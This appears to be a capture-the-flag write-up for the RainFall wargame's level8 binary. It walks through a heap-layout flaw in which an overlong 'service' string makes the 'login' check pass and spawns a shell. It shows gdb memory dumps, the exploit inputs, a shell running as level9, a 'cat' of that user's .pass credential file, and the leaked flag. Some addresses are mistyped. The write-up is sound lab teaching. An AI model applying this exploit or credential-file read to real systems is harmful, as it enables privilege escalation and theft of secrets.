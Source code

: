 1. Basically it is a program which compares string given as inputs (via a loop over fgets) with some static string. It's kind of an authentication process

2. Given the comparisons : if the input starts with "auth ", and the following string is shorter than 30 characters, it copies the portion of the string following "auth " at the memory location pointed to by a global allocated ptr (**auth** in our source.c)

This pointer has an address of **0x8049aac** and a value (i.e. the address to which it points) of **0x804a008** (breakpoint at **0x080485f0 <+140>** right after the first malloc and check what is in eax : `i r $eax` ; the return of the malloc call)

3. If the input starts with "service" : it copies the string following "service" to a newly allocated memory area in the heap, and set the value of a second global pointer (called **serv** in our source.c) to this newly allocated area.

This pointer has an address of **80x8049ab0** and a value of **0x804a018** (breakpoint at **0x080486b0 <+332>** right after the strdup call and check what is in eax : `i r $eax` ; the return of the strdup call))

4. Finally, if the input starts with "login", then it checks if the value stored at **auth + 0x20** or **0x804a008 + 0x20** is not NULL. It is the calue stored at **auth + 0x20**!

5. Finding the flag:

We cannot fill the memory value with 0x20 bytes, as the "auth" string must be less than 30 bytes long. but we can see that the memory address pointed to by the **serv** ptr is 0x10 bytes ahead of the one pointed to by auth, and so filling 16+1 bytes of data at the memory pointed to by the second pointer (**serv**) would suffice to make the memory location at **0x804a008 + 0x20** not NULL and enter the system command!

Looking at 20 words starting at **0x804a008**, we see that we must fille the memory at **0x084a28**:

```
(gdb) x/20wx 0x804a008
0x804a008:	0x63756f63	0x000a756f	0x00000000	0x00000031
0x804a018:	0x41414120	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x0a616141	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

So our "service" string must be at least 17 bytes long:

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth test
0x804a008, (nil)
serviceAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login hello
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```